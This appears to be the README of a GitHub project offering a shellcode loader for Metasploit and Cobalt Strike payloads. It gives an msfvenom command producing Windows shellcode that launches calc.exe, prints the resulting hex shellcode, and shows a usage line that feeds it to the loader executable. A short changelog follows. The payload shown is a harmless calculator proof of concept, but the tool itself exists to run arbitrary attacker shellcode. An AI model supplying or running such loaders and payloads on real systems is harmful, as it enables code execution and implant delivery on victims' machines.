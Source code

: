 # ShellCode-Loader
## ShellCode Loader for MSF and Cobalt Strike 

#####

```msfvenom -p windows/exec CMD=calc.exe -f c```

shellcode：
bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c

```shellcode_Argv.exe bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c```

![calc](https://github.com/LDrakura/ShellCode-Loader/blob/master/calc.png)

# 2021-01-31

- bug fixed
- add x64 release